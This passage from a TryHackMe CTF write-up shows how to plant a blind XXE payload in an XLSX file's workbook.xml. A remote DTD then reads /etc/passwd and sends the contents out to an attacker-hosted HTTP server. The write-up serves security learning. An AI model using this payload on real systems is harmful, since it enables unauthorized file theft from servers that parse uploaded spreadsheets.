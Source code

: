 - Create a new spreadsheet file via LibreOffice Calc or Microsoft Excel:

```
┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore]
└─# file blind_xxe.xlsx 
blind_xxe.xlsx: Microsoft Excel 2007+
```

- Extract XML file via `7z`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# 7z x -oXXE blind_xxe.xlsx    
```

- Add the XXE payload into `xl/workbook.xml`.

**workbook.xml:**
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.61.134/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

- Rebuild the spreadsheet file:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# cd XXE

┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore/XXE]
└─# 7z u ../blind_xxe.xlsx *
```

- Build a `xxe.dtd` file:

> Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files. (Source: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file))

```dtd
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://10.18.61.134/%d;'>">
```

- Host the `xxe.dtd` file via python's `http.server` module:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Upload the XLSX file to `nahamstore.thm/staff`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a49.png)
